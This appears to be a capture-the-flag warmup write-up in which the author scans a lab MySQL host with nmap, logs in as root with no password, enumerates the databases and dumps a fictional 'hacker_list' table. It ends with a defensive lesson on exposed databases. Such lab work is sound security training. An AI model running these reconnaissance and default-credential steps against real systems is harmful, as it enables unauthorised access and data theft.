






# Query Gate — Write-up

**Category:** Warmups / Practical Exercise
**Difficulty:** Basic
**Points:** 19
**Target service:** MySQL (RDBMS)

## Objective

Query Gate is a live target machine running MySQL. The goal is to enumerate the service, gain access, and extract sensitive data — practicing the fundamentals of database reconnaissance and exploitation of misconfigurations.

## Task 1–2: Reconnaissance (Port Scan)

Started by scanning the target machine to identify open ports and services.

```bash
nmap 172.20.14.206
```

**Output:**
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-08-17 09:00 CDT
Nmap scan report for 172.20.14.206
Host is up (0.00026s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE
3306/tcp open  mysql
MAC Address: 52:54:00:A9:1E:52 (QEMU virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 13.18 seconds
```

**Finding:** Only one port open — `3306/tcp`, the default MySQL port.



## Task 3–4: System Access

Since the target exposes MySQL directly, the next step was attempting to connect as the most privileged user: `root`.

```bash
mysql -u root -h 172.20.14.206
```

**Output:**
```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 9
Server version: 8.0.34 MySQL Community Server - GPL

MySQL [(none)]>
```

**Finding:** The connection succeeded **with no password required.** Normally, connecting to MySQL requires a username *and* password — this confirms a misconfiguration on the target machine (root account left without authentication).



## Task 5: Database Enumeration

```sql
SHOW DATABASES;
```

**Output:**
```
+--------------------+
| Database           |
+--------------------+
| detective_inspector |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.011 sec)
```

**Finding:** 5 databases total. `detective_inspector` stands out as the non-default, custom database — the likely target.



## Task 6–7: Table Discovery

```sql
USE detective_inspector;
SHOW TABLES;
```

**Output:**
```
+-------------------------------+
| Tables_in_detective_inspector |
+-------------------------------+
| hacker_list                   |
+-------------------------------+
1 row in set (0.004 sec)
```

**Finding:** A single table, `hacker_list`, inside the target database.



## Task 8: Data Extraction

```sql
SELECT * FROM hacker_list;
```

**Output:**
```
+------+-----------+----------+-----------+-----------+
| id   | firstName | lastName | nickname  | type      |
+------+-----------+----------+-----------+-----------+
| 1001 | Jed       | Meadows  | sp1d3r    | gray-hat  |
| 1002 | Melissa   | Gamble   | c0c0net   | gray-hat  |
| 1003 | Frank     | Netsi    | v3nus     | gray-hat  |
| 1004 | Nancy     | Melton   | s1torml09 | black-hat |
| 1005 | Jack      | Dunn     | psyod3d   | black-hat |
| 1006 | Arron     | Eden     | r4nd0myfff| black-hat |
| 1007 | Lea       | Wells    | pumq7eggy7| black-hat |
| 1008 | Hackviser | Hackviser| h4ckv1s3r | white-hat |
| 1009 | Xavier    | Klein    | oricy4l33 | black-hat |
+------+-----------+----------+-----------+-----------+
9 rows in set (0.005 sec)
```

**Finding:** 9 records, each tagged by hacker classification. Row `1008` is the only entry marked `white-hat` — nickname `h4ckv1s3r`, matching the platform's own branding as a nod to task completion.



## Result

Warmup completed — all 8 tasks passed for 19 points.



## Key Takeaway

This exercise demonstrates a common real-world misconfiguration: exposing a database's root account to the network **without password authentication**. A single `nmap` scan plus a default-credential connection attempt was enough to gain full read access to the database — underscoring why databases should never be directly internet-facing without strict access controls, strong credentials, and network segmentation.
